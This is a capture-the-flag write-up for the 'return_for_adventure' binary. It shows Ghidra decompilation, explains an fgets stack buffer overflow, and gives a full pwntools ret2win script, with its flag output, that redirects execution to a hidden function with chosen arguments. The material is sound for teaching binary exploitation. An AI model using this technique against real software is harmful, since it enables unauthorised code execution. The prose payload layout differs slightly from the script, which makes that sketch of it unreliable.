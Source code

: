 # return_for_adventure

## Challenge description

> This choose your own adventure is pretty lame, can you find a way to change it?

## Solution

As always, it's always good to run `file` on any binaries (or files) you're provided :)

```shell
$ file ./return_for_adventure
./return_for_adventure: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=59f37aeb582339a0d107aefdf63a6ed06a164c6d, not stripped
```

So it's a 32-bit executable, interesting. It's not stripped, which means that debug symbols (i.e. function names) are preserved, which is nice for analyzing the binary in something like Ghidra :)

After opening it up in Ghidra, one of the functions stood out to me right off the bat:

```c
void huh_whats_this_function_for(int param_1,int param_2)

{
  char local_33 [35];
  FILE *local_10;

  if ((param_1 == -0x74520ff3) && (param_2 == -0x54524542)) {
    printf("Here is the correct flag: ");
    local_10 = fopen("flag.txt","r");
    fgets(local_33,0x22,local_10);
    fclose(local_10);
    puts(local_33);
  }
  return;
}
```

So clearly we need to find a way to run this function. Unfortunately for us, though, it's not called from any of the other functions in this executable. We're gonna have to be a bit more clever in finding a way to get the flag.

Of the functions that are actually called from the `main()` function, `breakfast` looks most interesting:

```c
void breakfast(void)

{
  char local_24 [20];
  int local_10;

  puts("What breakfast do you want to eat?");
  do {
    local_10 = getchar();
    if (local_10 == 10) break;
  } while (local_10 != -1);
  fgets(local_24,200,stdin);
  puts("I guess if thats what u want...");
  return;
}
```

The `fgets` call gets up to 200 characters from stdin and puts them into `local_24`, which is allocated with a length of 20 characters. In case it's not obvious, this would normally be really bad, but it's good for us in this case since we can then overwrite more data than we should be able to :)

### Function calling conventions

When a function is called, a bit of setup is done on the stack via various assembly instructions:

- Any function parameters are pushed onto the stack in reverse order
- The `CALL` instruction pushes a return address onto the stack, so the calling function can continue from where it left off
- The previous function's base pointer (located in the EBP register) gets pushed onto the stack
- Any local variables are allocated on the stack (again in reverse order)

After all of that, the stack looks something like this, where ESP represents the stack pointer:

```text
+----------------+
| ...            |    |
| param_2        |    |
| param_1        |    |
| return_address |    |
| previous_ebp   |    |
| local_2        |    |
| local_1 <- ESP |    v decreasing addresses
+----------------+
```

We can take advantage of this fact in the `breakfast` function by overwriting the return address with that of the `huh_whats_this_function_for` function. Because it takes parameters, though, we have to also put those onto the stack in order for the code inside the if statement to execute.

In case you didn't know, the numbers after `local_` in Ghidra normally signify stack offsets, which is made more obvious in the function header section:

<div align="center">
<img src="img/breakfast-header.png" alt="breakfast function header in Ghidra displaying parameters with stack offsets">
</div>

As we can see above, `local_24` (the buffer that user input gets written to) is offset by -0x24 bytes from the stack, which when converted to decimal is 36 bytes. That means that we have to provide 36 characters until we start overwriting (among other things) the return address. We also have to overwrite the previous base pointer address, but the specific value doesn't really matter. Finally, for the parameters passed to the `huh_whats_this_function_for` function, Ghidra shows them properly in the disassembly view:

<div align="center">
<img src="img/huh-disassembly.png" alt="Ghidra disassembly showing CMP instructions inside flag function">
</div>

So the first paramater has to have the hex value `0x8badf00d` and the second parameter `0xabadbabe`.
Assembling all of that together means our payload should look something like this:

```text
<36 characters><ebp placeholder><flag function address><0x8badfood><0xabadbabe>
```

I used pwntools to craft the payload and send it to the binary. [My full solve script](./pwn_adventure.py) is in this folder, but I'll include it in here as well:

```py
from pwn import *

if __name__ == "__main__":
    # Find the address of the flag-printing function
    game_elf = ELF("./provided/return_for_adventure")
    flag_addr = game_elf.symbols["huh_whats_this_function_for"]
    print(f"flag function addr: {flag_addr:#x}")

    # p = process("./provided/return_for_adventure")
    p = remote("chal.ctf-league.osusec.org", 7159)

    # Send proper input to reach breakfast function
    p.sendline(b"1")
    p.sendline(b"2")

    # payload: 36 characters + flag func address + junk + param_1 + param_2
    p.sendline(b"A"*36 + p32(flag_addr) + p32(0xdeadbeef) + p32(0x8badf00d) + p32(0xabadbabe))
    p.interactive()
```

I used pwntools' `ELF` class to fetch the symbols table of the `return_for_adventure` executable, which allows me to get the address of the `huh_whats_this_function_for` function. The `p32` function encodes the integers/addresses into the proper representation (i.e. little endian) to be understood by the binary.
After running this script, we get the flag:

```shell
$ python pwn_adventure.py
flag function addr: 0x8048646
# --snip--
Here is the correct flag: osu{d0n'7_b3_57up1d_4nd_0v3rfl0w}
```

And there's our flag! This is why you should always be careful when getting user input, especially if you read more data than a buffer can hold :)
